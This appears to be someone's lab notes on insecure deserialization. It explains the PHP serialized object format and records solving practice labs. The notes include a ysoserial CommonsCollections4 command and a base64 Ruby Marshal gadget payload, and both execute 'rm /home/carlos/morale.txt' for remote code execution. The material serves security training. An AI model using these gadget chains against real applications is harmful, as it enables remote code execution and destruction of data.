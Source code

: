 [#](#) Deserialization

`O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}`

    This can be interpreted as follows:
    
    O:4:"User" - An object with the 4-character class name "User"
    2 - the object has 2 attributes
    s:4:"name" - The key of the first attribute is the 4-character string "name"
    s:6:"carlos" - The value of the first attribute is the 6-character string "carlos"
    s:10:"isLoggedIn" - The key of the second attribute is the 10-character string "isLoggedIn"
    b:1 - The value of the second attribute is the boolean value true

Can you read the source code?

    /libs/CustomTemplate.php
   
        Nothing
        
    /libs/CustomTemplate.php~
    
        <?php...

Burp Active detects Serialize objects

    Cookie: session=rO0ABXNyAC9sYWIuYWN0aW9ucy5jb21tb24uc2VyaWFsaXphYmxlLkFjY2Vzc1Rva2VuVXNlchlR/OUSJ6mBAgACTAALYWNjZXNzVG9rZW50ABJMamF2YS9sYW5nL1N0cmluZztMAAh1c2VybmFtZXEAfgABeHB0ACBybHcxaGs4cDg5YmE2MjJnNm93NTh0amVnaHB5cWpkbHQABndpZW5lcg%3d%3d
    
        base64decoded -> ...lab.actions.common.serializable.AccessTokenUser...
    
    java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
        
        - base64_output
        - URL_Encode
        - Replace cookie
        - Receive 500: InstantiateTransformer: Constructor threw an exception
        - Solved!

Ruby (Marshal)

    I try to use the online compiler (or locally) but the script provided never worked. (https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html)
    
    BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ==
